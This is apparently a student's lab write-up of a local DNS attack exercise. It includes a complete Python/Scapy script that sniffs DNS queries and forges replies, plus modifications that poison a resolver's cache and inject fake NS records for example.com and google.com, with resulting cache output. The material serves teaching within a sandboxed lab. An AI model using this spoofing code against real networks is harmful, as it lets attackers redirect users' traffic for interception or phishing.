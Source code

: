 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1: Task 1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section is not needed
                # The Additional Section is not needed

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

With this code, we sniff for DNS requests containing ``` example.com ```, we spoof a reply by swapping target and source IP addresses and ports and creating a DNS answer section containing the 'bad' IP address we want the victim to use for the respective hostname.

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/393f7f25-df2c-4788-9a2b-f2476ae5434f)

The answer now contains the attacker machine's IP address (```10.9.0.1```) and not the real address like before.

---

## 3.2: Task 2: DNS Cache Poisoning Attack - Spoofing Answers

We now want to be the 'man in the middle' between the local DNS server and a remote authoritative DNS server. 

To do this, we only have to change the filter in our spoofing script to only sniff packets that are coming from our local DNS server and are going to port 53 (DNS requests).

```python
myFilter = "udp and dst port 53 and src host 10.9.0.53" 
```
The rest of the script of task 1 stays the same.

So now the dig request on the ```user``` machine gives 
```
;; ANSWER SECTION:
www.example.com.        259200  IN      A       10.9.0.1
```
as well.

But now the local DNS server cache is also poisoned and contains:

```
www.example.com.        863957  A       10.9.0.1
```

---

## 3.3: Task 3: Spoofing NS Records

Now we want to add an Authority Section to out spoofed DNS reply. This will lead to the local DNS server saving our malicious name server in its cache as the authority responsible for the entire ``` example.com ``` domain. Therefore, when a user makes a DNS request to the local DNS server about any subdomain like ``` mail.example.com ```, the request will be forwarded to the attacker nameserver.

To achieve this, we just create the section in our script with this line:

```python
NSsec1 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
```

To include it in our spoofed DNS packet, we have to modify the ```nscount``` and ```ns``` properties in the instantiation of our DNS object:

```python
dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, an=Anssec, ns=NSsec1)
```

The rest of the script remains as before.

So if we now execute ```dig mail.example.com``` on the ```user**``` machine, we see the wrong IP address provided by the malicious nameserver:

![image](https://github.com/user-attachments/assets/0b0e097d-f17f-4050-b4c0-895b67fe4eb4)

Further, the local DNS server cache now contains the entry:

```
example.com.            777584  NS      ns.attacker32.com.
```

This means every request made to the DNS server for this domain is forwarded to our attacker nameserver if there is no entry for the specific hostname already in the cache.

---

## 3.4: Task 4: Spoofing NS Records for Another Domain

Now we want our spoofed reply to also add a cache entry for the ```google.com``` domain. To do this, we just add another element to the authority section.

The creation of the additional element in the authority section works in the same way as before:

```python
 NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
```

Of course, we have to inlude this in the DNS object as well:

```python
dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2)
```
